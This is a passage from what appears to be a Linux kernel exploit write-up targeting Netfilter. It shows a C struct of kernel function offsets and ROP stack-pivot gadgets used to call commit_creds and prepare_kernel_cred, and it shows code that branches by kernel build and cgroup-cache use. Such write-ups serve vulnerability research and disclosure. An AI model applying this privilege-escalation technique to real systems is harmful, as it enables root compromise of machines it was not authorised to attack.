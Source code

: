 ```c

    // helpher function
    uintptr_t set_memory_x_offset;
    uintptr_t find_task_by_vpid_offset;
    uintptr_t switch_task_namespaces_offset;
    uintptr_t prepare_kernel_cred_offset;
    uintptr_t commit_creds_offset;
    uintptr_t msleep_offset;

    // ROP gadgets
	// pop rdi ; ret
    uintptr_t pop_rdi_ret_offset;
	// pop rsi ; ret
    uintptr_t pop_rsi_ret_offset;
	// pop rcx ; ret
    uintptr_t pop_rcx_ret_offset;
    uintptr_t ret2user_gadget_offset;
	// push rax ; jmp qword ptr [rsi - 0x7f]
    uintptr_t push_rax_jmp_qptr_rsi_7f_offset;
    // push rsi ; jmp qword ptr [rsi + 0x39]
    uintptr_t pivot_gadget_cg_1_offset;
    // pop rsp ; ret
    uintptr_t pivot_gadget_cg_2_offset;
    // push rdi ; jmp qword ptr [rsi + 0x39]
    uintptr_t pivot_gadget_nocg_1_offset;
    // pop rsp ; pop r13 ; pop r14 ; pop r15 ; jmp 0xffffffff81004130 (nop ; ret)
    uintptr_t pivot_gadget_nocg_2_offset;
    // add rsp, 0xc8 ; jmp 0xffffffff82204200 (ret)
    uintptr_t pivot_gadget_nocg_3_offset;
};
```
We first initialize kernel image-specific values. In particular, we check the kernel version with `uname` syscall and initialize the struct above. This will be used for managing these kernel image-specific values.

```c
if (!init_gadget()) // [1]
{
	printf("[-] exploit not supported\n");
	return -1;
}
if (curr_gadget->is_netfilter_cg) // [2]
{
	main_cg(argc, argv);
}
else
{
	main_nocg(argc, argv);
}
```

After this initialization [1], we proceed to next steps depending on whether the Netfilter objects are in a cgroup cache or not [2]. Note that `lts-6.1.31` and `mitigaion-6.1` use the cgroup cache and `cos-105-17412.101.17` does not.
